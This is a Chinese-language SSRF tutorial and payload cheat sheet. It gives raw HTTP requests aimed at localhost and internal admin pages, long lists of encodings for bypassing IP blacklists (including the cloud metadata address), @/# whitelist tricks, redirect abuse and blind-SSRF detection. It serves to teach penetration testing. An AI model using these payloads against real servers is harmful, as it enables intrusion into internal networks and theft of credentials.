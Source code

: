 # SSRF攻击方式汇总

## 原理

涉及到SSRF的地方往往与公司的整个内网有关，因此涉及到SSRF的漏洞往往都有还不错的危害评级。

如果把存在SSRF攻击面的机器比作公司大楼保安.

第一种SSRF就好比，攻击者穿着外卖员的衣服跟保安说要进去送个外卖，然后保安相信了，这个时候攻击者就可以在公司大楼内部到处闲逛，这种就属于危害级别最高的SSRF；

第二种SSRF是公司给保安交代了明确规定外来人员不准进入公司大楼，这个时候外卖员跟保安说去跟我带个信，说一声某人外卖到了，然后保安问了说有就是这个人确实点了外卖，说没有就说明这个人没有点外卖或者说没有这个人；

第三种SSRF就更难了，保安收到了公司消息说是不准外来人员进入大楼，那外卖员让保安带个信，问这个人在不在，在就下来拿外卖，然后又多问了一嘴，问从哪里下来的，大概要多久才能到这里，保安觉得没啥大不了问了就消息一并告诉他了。

SSRF的全称是服务器端请求伪造（Server-side request forgery），通常情况下他的起因是公司的某些服务器因为需要长期和外界网络进行信息交互，对外界的某些请求需要在公司内部其他服务器上进行查询，同时因为该机器需要保持与外界的交流，所以该机器对外界的消息传递是不得不接受的，而因为某些配置或者某些精巧的绕过手法使得攻击者的意图隐藏在了看似正常的消息传递环节里。而其他服务器在进行查询时返回了攻击者的期望内容，因此就产生了SSRF攻击。

## SSRF攻击服务器本机

在某些业务情况下，用户发起请求时服务器需要通过其内的api接口对信息进行访问，该接口由于其可以对输入url进行解析请求,并对请求结果返回，因此可以进行SSRF攻击，如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

将 api 处内容换位本机地址：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

如果服务器在对localhost内容进行请求，则顺利构成SSRF攻击。

## SSRF内网漫游

与上图一样，如果将请求的内容换成如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.1.1/admin
```

如果将上述内容 localhost 改为内网地址，在 burp 的intruder模块对内网地址进行爆破，对存活主机进行目录爆破，即可实现内网漫游。

## 黑名单绕过

上述两种SSRF可以说是非常理想的场景了，然而事实是，在如今的实际业务场景中几乎不会出现如此理想的攻击环境，往往存在各种的waf、行为感知、黑名单、百名单等进行攻击阻断

那么当127.0.0.1被禁止 了该如何处理？

以下都是可以尝试的替换方案：

```http
# Localhost 绕过
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR 绕过
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# 点号绕过
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# 十进制 绕过
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# 八进制 绕过
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# 十六进制绕过
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# 也可以尝试混合不同的绕过方式，可以使用如下网站借助完成：
# https://www.silisoftware.com/tools/ipconverter.php

# 比较少见的绕过方式
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS解析绕过
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

## 白名单绕过

白名单的主要绕过方式来自于各设备的规律规则没有对URL的规范贯彻，主要就是 `@` 和 `#` 这两个符号：如下，其中一个 `url` 是白名单要求的 `url` ，另一个 `url` 是我们需要请求的 `url` ，这俩 `url` 随便顺序组合（最好都尝试），然后中间用 `@`、`#`、`@#`、`#@` 进行链接，甚至对各个符号进行一次编码、二次编码在进行拼接，甚至在`@#`和`#@`这种情况下对其中一个进行一次、二次编码之后再进行拼接。对，白名单就是这样进行绕过。

```txt
https://URL_1@URL_2
```

## 重定向里的SSRF

通常出现在这样的业务场景里，利用方式如下：

get方式：`/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin`

post方式：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin
```

## Blind SSRF

Blind SSRF的发现方式通常都是将自己vps的地址放在可能存在攻击点的地方，然后监听vps相应端口，等待攻击完成后看是否有收到像一个请求。从而判定是否存在Blind SSRF。

## Blind SSRF打出危害

由于Blind SSRF没有回显，因此相关的可以利用的价值极低，不过最近我发现了一个技术叫shellshock攻击的技术可以通过Blind SSRF拿出数据，还在研究，研究透彻了会发出。